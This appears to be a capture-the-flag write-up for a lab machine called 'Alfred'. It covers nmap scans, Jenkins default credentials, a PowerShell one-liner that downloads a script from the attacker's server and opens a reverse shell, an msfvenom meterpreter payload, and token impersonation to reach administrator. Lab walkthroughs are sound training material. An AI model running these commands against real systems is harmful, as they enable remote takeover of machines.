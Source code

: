 # Alfred


## Nmap Scan
```$ nmap -sV -v -oN scans/initial_scan.nmap 10.10.118.177```
```$ nmap -A -p- -v -oN scans/all_scan.nmap 10.10.31.121```
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy


## Eumeration

HTTP server on port 8080 has username & password: admin:admin

Jenkin's projects seems to allow command execution, output is avalible to us


## Exploitation

By configuring the premade project we can insert our own command:
```powershell iex (New-Object Net.WebClient).DownloadString('http://$LOCAL_IP:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $LOCAL_IP -Port 9999```

Then setup an HTTP Python server to hold the Invoke-PowerShellTcp.ps1 shell:
```python3 -m http.server```

Finally set up NC listener:
```nc -lnvp 9999```

Build the project, get a shell!


## Upgrading Shell

Upgrading a shell is very nice, meterpreter provides a lot of commands that are normally hard to do on a normal shell

Plus we have post scripts from metasploit that we can use with a meterpreter shell

I tried using post/multi/manage/shell_to_meterpreter but it did not seem to work for some reason, so I will follow the guide

Lets generate a msfvenom payload, host it on the python server, and execute it on the victim

Create shell (in web directory):
```msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=$LOCAL_IP LPORT=9998 -f exe -o mshell.exe```

Then download it:
```powershell "(New-Object System.Net.WebClient).Downloadfile('http://$LOCAL_IP:8000/mshell.exe','mshell.exe')"```


Put up multi/handler on metasploit with the same payload (windows/meterpreter/reverse_tcp) and run the shell:
```Start-Process "mshell.exe"```

Now we have a meterpreter session!


## Privilege Escalation

Attempted to run PowerUp.ps1 but the checks did not find anything

Metasploit's exploit suggester found "windows/local/ms10_092_schelevator" but it gave an error when ran:
```Exploit aborted due to failure: no-target: Running against via WOW64 is not supported, try using an x64 meterpreter...```
I attempted to fix it but to no avail


Show session tokens:
```whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
*SeDebugPrivilege                Debug programs                            Enabled* 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```

Found a potentially dangerous token, "SeDebugPrivilege"

Load the meterpreter incognito module to exploit this

Use "list_tokes -g" to list all of the avalible tokens

The "BUILTIN\Administrators" token is avalible, time to impersonate it:
```impersonate_token "BUILTIN\Administrators"```

Lastly, while our shell is admin, our process may not be. We need to migrate into another process which has the administrator role 

NOTE TO SELF: DO NOT MIGRATE INTO THE SVCHOST.EXE PROCESS. IT SOMETIMES RUNS AS A NETWORK SERVICE, NOT ADMIN

I may have had to restart this step...

Now we are migrated, we have root!

